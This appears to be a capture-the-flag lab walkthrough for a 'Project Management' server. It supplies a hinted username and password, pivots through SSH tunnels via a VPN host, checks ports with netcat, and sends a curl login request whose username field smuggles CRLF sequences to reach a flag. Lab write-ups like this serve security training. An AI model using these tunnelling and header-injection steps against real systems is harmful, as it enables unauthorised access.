 # Project Management

1. **Resume From [PC2](<../5_PC2/>)**

2. **Hint:**

    ```text
    ۱. 
    faraji:P@ssw0rd!
    ۲. 
    دسترسی ادمین را بدست آورید 
    ```

3. **Ping project management server from PC2:**

    ```shell
    ssh -N -i ./id_ed25519 -p 2200 -L 0.0.0.0:7777:10.233.27.37:22 vpn_user@172.16.3.64
    ```

    In a new terminal:

    ```shell
    ssh -p 7777 -i 05-rsa.rezaee.priv rezaee@127.0.0.1
    ping pm
    ```

    Project management server IP: `10.233.58.241`

4. **Check which ports are open on the project management server:**

    1. **Check if port 22 and 2200 are open on project management server for ssh:**

        ```shell
        ssh faraji@10.233.58.241
        ssh -p 2200 faraji@10.233.58.241
        ```

    2. **Check if port 80 is open on project management server for http:**

        ```shell
        nc -zv 10.233.58.241 80
        ```

        Output:

        ```shell
        Connection to  port 80 10.233.58.241 succeeded!
        ```

5. **Create an SSH tunnel to access port 80 on the project management server:**

    ```shell
    ssh -i ./id_ed25519 -p 2200 -L 18080:10.233.58.241:80 vpn_user@172.16.3.64
    ```

6. **Access the project management server through the tunnel:**

    ```shell
    http://localhost:18080
    ```

7. CLRF Injection

 ```shell
 curl -X POST -d "username=admin%0d%0aContent-Length:0%0d%0a" http://localhost:18080/login
 ```

8. **Flag:**

 ```shell
 flag{CLRF_injection_is_very_interesting}
 ```
